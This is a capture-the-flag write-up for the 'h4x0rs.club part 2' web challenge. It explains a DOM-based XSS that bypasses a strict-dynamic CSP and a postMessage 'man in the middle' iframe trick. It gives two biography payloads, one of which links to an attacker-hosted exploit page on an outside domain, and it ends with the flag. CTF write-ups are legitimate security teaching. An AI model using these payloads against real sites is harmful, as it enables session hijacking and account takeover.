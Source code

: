 # h4x0rs.club part 2

Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.

Create 2 users: `blah1` && `blah2`

Root cause:

There is DOM-XSS at `client.js` when setting `title` on `badges` function. CSP contains `strict-dynamic`, so you can just simply inject `'><script>...</script>`

To do it, take a look at the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io/exploit.html' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report></iframe>' id=report-btn></a>
```

`<iframe>` with a local src is allowed by XSS Auditor. So using open-redirect for 2 various reason.

Then report `blah2` user along with `#report`

## Flag
`flag{postman_1n_the_middl3}`

# h4x0rs.club part 3

I really like my idea behind this one. Pwn the binary with full mitigations shipped. 

Hopefully someone can write about it :(
